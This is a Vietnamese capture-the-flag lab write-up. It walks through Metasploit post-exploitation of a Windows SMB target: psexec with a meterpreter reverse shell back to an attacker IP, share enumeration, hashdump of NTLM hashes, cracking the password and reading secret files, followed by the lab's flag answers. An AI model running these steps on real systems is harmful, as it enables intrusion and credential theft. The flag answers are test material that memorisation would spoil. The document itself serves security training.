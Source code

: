 
*Đoạn writeup dưới đây mô tả việc sau khai thác (post-exploitation) sau khi exploit RCE thành công trên các hệ thống windows cũ chạy SMB service !*

![Screenshot 2024-02-24 123936](https://hackmd.io/_uploads/r1xBZbPhT.png)

![Screenshot 2024-02-24 020529](https://hackmd.io/_uploads/r1J3nPIha.png)
Trong thử thách này , chúng ta sẽ sử dụng module `exploit/windows/smb/psexec` để khai thác máy mục tiêu.Khởi chạy `msfconsole`, sử dụng `exploit/windows/smb/psexec` trên mục tiêu với thông tin user, password được cung cấp:

![Screenshot 2024-02-24 124127](https://hackmd.io/_uploads/r18iZ-P2a.png)

![Screenshot 2024-02-24 022134](https://hackmd.io/_uploads/Syiwl_Lnp.png)

*Module exploit/windows/smb/psexec trong Metasploit là một công cụ mạnh mẽ cho phép thực thi mã từ xa (RCE) trên các hệ thống Windows dễ bị tấn công thông qua giao thức SMB.*
Theo mặc định , payloads được sử dụng là `windows/meterpreter/reverse_tcp` để tạo reverse shell từ máy Windows mục tiêu đến máy của ta.  

Sử dụng lệnh show options, sau đó ta gán giá trị cho các trường được yêu cầu: `rhost`, `SBMUser`, `SBMPass`:

![image](https://hackmd.io/_uploads/H1sFGZvha.png)

Sử dụng ifconfig để xem IP Localhost hiện tại :
![Screenshot 2024-02-24 023252](https://hackmd.io/_uploads/Sy1XQOUh6.png)

![image](https://hackmd.io/_uploads/B12-XZw2a.png)

Thực hiện gán giá trị cho `lhosts` (10.17.122.154) ,sử dụng `port 1234` (tuỳ chọn) để nhận kết nối reverse shell:
![image](https://hackmd.io/_uploads/H1s1Ebw2p.png)

Ta có thể kiểm tra lại các options bằng show options.
And run exploit...
![image](https://hackmd.io/_uploads/S1P2V-w2a.png)

Sau khi chạy , ta nhận được kết nối shell `meterpreter` từ máy mục tiêu, tiến hành khai thác: 
Answer the Question:
1.  *What is the computer name?*
Run sysinfo, ta được computer name!
![image](https://hackmd.io/_uploads/H1I9HWD3a.png)
*Answer: ACME-TEST*
2. *What is the target domain?* 
Như kết quả bên trên , ta có domain FLASH
*Answer: FLASH*
3. *What is the name of the share likely created by the user?* 
Sử dụng command background (bg) để background meterpreter hiện tại , trở về msf6 console : 
![image](https://hackmd.io/_uploads/Sk_GOWDn6.png)

Sử dụng post/windows/gather/enum_shares (post/windows/gather/enum_shares) , ta đặt phiên session vừa background để chạy module này: 
![image](https://hackmd.io/_uploads/Syi6uWP3p.png)

And run it...
![image](https://hackmd.io/_uploads/BJ6-FZw36.png)
*Answer: speedster*
4. *What is the NTLM hash of the jchambers user?* 
Back to meterpreter session , run hashdump (Dumps the contents of the SAM database on Windows target): 
![image](https://hackmd.io/_uploads/Hkmx9Wwna.png)
*Answer: 69596c7aa1e8daee17f8e78870e25a5c* 
5. *What is the cleartext password of the jchambers user?*
Mã Hash của các challenge thường rất dễ để crack , sử dụng [crackstation](https://crackstation.net/) để crack hash ở trên, ta được: 
![image](https://hackmd.io/_uploads/rkZ_jZD3T.png)
*Answer: Trustno1*
6. *Where is the "secrets.txt"  file located?* 
Run search -f secrets.txt , and take a while...
![image](https://hackmd.io/_uploads/B1-46WDna.png)
*Answer: c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt*
7. *Where is the "realsecret.txt" file located?*
The same : 
![image](https://hackmd.io/_uploads/BJHlRbvna.png)
*Answer: c:\inetpub\wwwroot\realsecret.txt*
8. *What is the real secret?* 
Enter shell trên máy mục tiêu, and run type c:\inetpub\wwwroot\realsecret.txt

![image](https://hackmd.io/_uploads/r1P-yfDn6.png)
*Anwser: The Flash is the fastest man alive*

